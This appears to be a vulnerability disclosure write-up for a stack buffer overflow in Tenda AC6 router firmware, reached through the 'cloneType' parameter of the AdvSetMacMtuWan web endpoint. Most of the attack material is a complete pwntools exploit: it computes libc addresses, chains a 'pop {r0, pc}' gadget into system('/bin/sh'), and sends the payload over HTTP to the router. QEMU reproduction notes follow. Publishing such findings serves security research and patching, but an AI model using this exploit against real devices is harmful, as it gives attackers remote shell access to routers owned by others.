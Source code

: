 # fromAdvSetMacMtuWan-vulnerability

## Intro

Tenda AC6 V1.0BR_V15.03.05.19_multi_TD01 firmware has a buffer overflow vulnerability in the sub_72E7C function. **strcpy(a3 + 0x20, v5);** function copies the contents of the parameter **"cloneType"(or cloneType2)** to a3 without performing a length check. Therefore we can send a very long string to overwrite the return address to execute certain code we want.

![img](./assets/16.png)

![img](./assets/17.png)

## Exp

By analysing the libc in firmware and adding breakpoint in memset function, we can get the base address of libc：0x3fdd8f70-0x3df70=0x3fd9b000

![](./assets/2.png)

![](./assets/3.png)

Then let's set the rop chain. It's so lucky that there's a perfect gadget "pop {r0, pc}" that can pass parameter and set pc at the same time. So we can use this gadget to execute "system("/bin/sh")" easily. The offset of this gadget in libc is 0x0003db80（take US_AC6V1.0BR_V15.03.05.19_multi_TD01 as example）.

Noticing that sub_72E7C is called by fromAdvSetMacMtuWan, we should pay attention that when overwriting the return address of fromAdvSetMacMtuWan, we also rewrite some local variables in fromAdvSetMacMtuWan. To make it run normally before returning, we should set the value of [sp+17Ch] and [sp+180h] as 0xffffffff（minus one）.

![](./assets/10.png)

```python
from pwn import *
import requests

libc = ELF('./lib/libc.so.0')

libc_start = 0x3fd9b000
system_addr = libc_start + libc.symbols['system']
binsh_addr = libc_start + next(libc.search(b'/bin/sh'))

# 0x0003db80 : pop {r0, pc}

pop_r0_pc = libc_start + 0x0003db80

print(f"system: {hex(system_addr)}")
print(f"/bin/sh: {hex(binsh_addr)}")
print(f"pop {hex(pop_r0_pc)}")

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'cloneType': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0xf4 * b'A' + b'\xff\xff\xff\xff' + b'\xff\xff\xff\xff' + 0x10 * b'A' + p32(pop_r0_pc) + p32(binsh_addr) + p32(system_addr)
send_payload("http://10.10.10.1/goform/AdvSetMacMtuWan", payload)

```

## Reproduction

If you are using qemu to run the binary file, to make it run correctly, there's several places to patch.

The instructions patched to **'b'(the jump instruction)** can be listed as follows:  

![](./assets/4.png)

![](./assets/5.png)

Then after running the exp twice we can get shell successfully.

![](./assets/15.png)